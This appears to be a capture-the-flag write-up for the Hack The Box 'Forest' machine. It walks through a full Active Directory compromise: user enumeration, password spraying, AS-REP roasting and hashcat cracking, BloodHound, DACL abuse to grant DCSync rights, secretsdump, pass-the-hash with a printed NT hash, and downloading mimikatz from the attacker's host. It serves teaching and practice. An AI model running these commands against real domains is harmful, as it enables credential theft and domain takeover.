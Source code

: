 ```yaml
---
layout: post
title: "Forest"
date: 2025-04-20 
categories: CTPS Playlist
---
```

# Attack Path

First enumerate the open ports and services:

```bash
sudo nmap -sC -sV -oA nmap/forest 10.129.118.84

result:
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-12-08 16:47:45Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2024-12-08T08:47:55-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2024-12-08T16:47:52
|_  start_date: 2024-12-08T16:46:12
|_clock-skew: mean: 2h46m52s, deviation: 4h37m10s, median: 6m50s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

```

We find the domain name to be htb.local and the FQDN is forest.htb.local

DNS is open, let’s try zone transfer the reverse DNS

```bash
dig @10.129.118.84 -x 10.129.118.84

#also the nslookup method
nslookup
server 10.129.118.84
10.129.118.84
127.0.0.1

#try zone transfer
dig axfr htb.local @10.129.118.84

#no response
```

Let’s try smb server.

```bash
#Null authentication
smbclient -N -L 10.129.118.84  #noresponse

#Let's try CME invalid users
cme smb 10.129.118.85 -u 'fasf' -p ''

#Tried all methods and still got nothing
```

Let’s try to query LDAP

```bash
#We can check the domain name
ldapsearch -H ldap://10.129.118.84 -x -b "DC=htb,DC=local"

#Let's find all the SAM account names so we can do a password spraying attack
ldapsearch -H ldap://10.129.118.84 -x -b "DC=htb,DC=local" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "

#now save the output to a file removing all the machine account names
result:
sebastien
lucinda
andy
mark
santi
```

We can try rpc  null authentication to get the users list:

```bash
rpcclient -U '' -N 10.129.118.84
enumdomusers

result:
svc-alfresco

#we get an extra user we have not seen before
```

Let’s find out the password policy:

```bash
cme smb 10.129.118.84 -u '' -p '' --pass-pol

result:
SMB         10.129.118.84   445    FOREST           Minimum password length: 7
SMB         10.129.118.84   445    FOREST           Password history length: 24
SMB         10.129.118.84   445    FOREST           Maximum password age: Not Set
SMB         10.129.118.84   445    FOREST           
SMB         10.129.118.84   445    FOREST           Password Complexity Flags: 000000
SMB         10.129.118.84   445    FOREST               Domain Refuse Password Change: 0
SMB         10.129.118.84   445    FOREST               Domain Password Store Cleartext: 0
SMB         10.129.118.84   445    FOREST               Domain Password Lockout Admins: 0
SMB         10.129.118.84   445    FOREST               Domain Password No Clear Change: 0
SMB         10.129.118.84   445    FOREST               Domain Password No Anon Change: 0
SMB         10.129.118.84   445    FOREST               Domain Password Complex: 0
SMB         10.129.118.84   445    FOREST           
SMB         10.129.118.84   445    FOREST           Minimum password age: 1 day 4 minutes 
SMB         10.129.118.84   445    FOREST           Reset Account Lockout Counter: 30 minutes 
SMB         10.129.118.84   445    FOREST           Locked Account Duration: 30 minutes 
SMB         10.129.118.84   445    FOREST           Account Lockout Threshold: None
SMB         10.129.118.84   445    FOREST           Forced Log off Time: Not Set
```

From the password policy, we can see there are no lockout policy in place, so we can create a wordlist to bruteforce weak passwords. First create a wordlist with all the months, seasons and domain name, secret and common passwords like P@ssw0rd. Now add the current year or the year before:

```bash
for i in $(cat common-password.txt); do echo $i; echo ${i}2019; echo ${i}2020; done > p
mv p common-password.txt
for i in $(cat common-password.txt); do echo $i; echo ${i}\!; done > p
mv p common-password.txt
```

Now we can use hashcat rule files to transform the password list:

```bash
hashcat --stdout common-password.txt -r /usr/share/hashcat/rules/best64.rule -r /usr/share/hashcat/rules/toggles1.rule | sort -u | awk 'length($0) > 7' > common-password-rule.txt

```

Now we can begin the password attack in the background:

```bash
cme smb 10.129.118.84 -u users_ldap.txt -p common-password-rule.txt 
```

We can also user GetNPUsers to see if we get a TGT ticket and try to crack that:

```bash
impacket-GetNPUsers htb.local/ -dc-ip 10.129.118.84 -no-pass -usersfile users_ldap.txt

result:
$krb5asrep$23$svc-alfresco@HTB.LOCAL:f9fa9e79d8456bbda9e9521878ac6979$dc772faf5ecd603a158634c9f14808dc432d83d5ea40c48af44a4a354732fa99e9c2e57232b797f7db6848ff91801addd8e105567e3dc268bdc81768689f45ea47bb471ea212b673b75b6b280af8f8f8db0105dc0f989c09ad1b60e5ef4a09823ca9ec684ee48e8fa86241edb722918bb7bdd2533421bf6405e536c1e126b97eb5f4d18f81664c92873da4b8691ccd23f6367c34f37c8c2ec2b5c9e322c0efd7afbedc45048bfe07eeed7290b9b01b8ecd1b94b28865f4c278aaa1a23166b205c1f97a7e81b501ef68cff346fd21de2fce859035f169789fea9c283bd24d5c85bcbcf5f21ef3
```

Let’s try and crack that in hashcat:

```bash
hashcat.exe -m 18200 wordlists\admin_hash.txt wordlists\rockyou.txt --opencl-device-types 2 -w 3
```

We have cracked the password for user svc-alfresco. Now we can check the validity of the password:

```bash
cme smb 10.129.118.84 -u 'svc-alfresco' -p 's3rvice'
cme winrm 10.129.118.84 -u 'svc-alfresco' -p 's3rvice'

result:
both returned OK
```

We now have access to svc-alfresco. Now we have a valid user, we can evil-winrm log onto the user and we can also map privileges of the user with bloodhound.

```bash
mkdir bloodhound_output
bloodhound-python -u svc-alfresco -p 's3rvice' -ns 10.129.118.84 -d htb.local -c all

sudo neo4j start

bloodhound   #neo4j:neo4j
```

To delete old data, query this

```bash
MATCH (n) DETACH DELETE n;
```

Now start bloodhound and find user svc-alfresco and set it as starting node and mark user as owned.

Then we go to analysis and click on shortest path to domain admins from owned principal we get a mapped out route to domain admin. It’s recommending us to use mimikatz then dcsync. Let’s do that. First transfer mimikatz to target:

```bash
python3 -m http.server 8001

target:
iwr http://10.10.14.132:8001/mimikatz.exe -OutFile mimikatz.exe
```

```bash
.\mimikatz.exe
privilege::debug
#sekurlsa::logonpasswords

lsadump::dcsync /domain:testlab.local /user:Administrator
```

mimikatz don’t work on 

![image.png]({{ site.baseurl }}/assets/forest/forest-image.png)

The group Exchange Windows Permissions has WriteDacl over htb.local, which allows dcsync.

Let’s first add ourself to the group:

```bash
On attack host:
net rpc group addmem "Exchange Windows Permissions" "svc-alfresco" -U "htb.local"/"svc-alfresco"%"s3rvice" -S "FOREST.htb.local"

OR on evil-winrm:
net group "Exchange Windows Permissions" svc-alfresco /add /domain

#verify our group memebership:
net group "Exchange Windows Permissions" /domain

#Then quickly (as the service automatically deletes group membership) on attack host:

impacket-dacledit htb.local/svc-alfresco:s3rvice -action write -rights DCSync -principal svc-alfresco -target-dn 'DC=htb,DC=local' -dc-ip 10.129.118.84

#we should get a:
[*] DACL backed up to dacledit-20241208-200009.bak
[*] DACL modified successfully!

```

Now we can use secretsdump from attack host:

```bash
impacket-secretsdump -outputfile htb_hashes -just-dc htb.local/svc-alfresco@10.129.118.84 
```

We now have the hashes including Administrator’s NT hash.

Now, let’s use evil-winrm to log on.

```bash
evil-winrm -i 10.129.118.84 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

- Enumerate SMB, DNS
- ldapsearch to find users
- enum4linux
- rpcclient, enumdomusers find users
- GetNPUsers to get KRTGT hash
- hashcat -m 18200
- bloodhound to map quickest route to domain admin
- change group membership
- dacledit to grant dcsync rights
- DCSync
- secretsdump to get NT hashes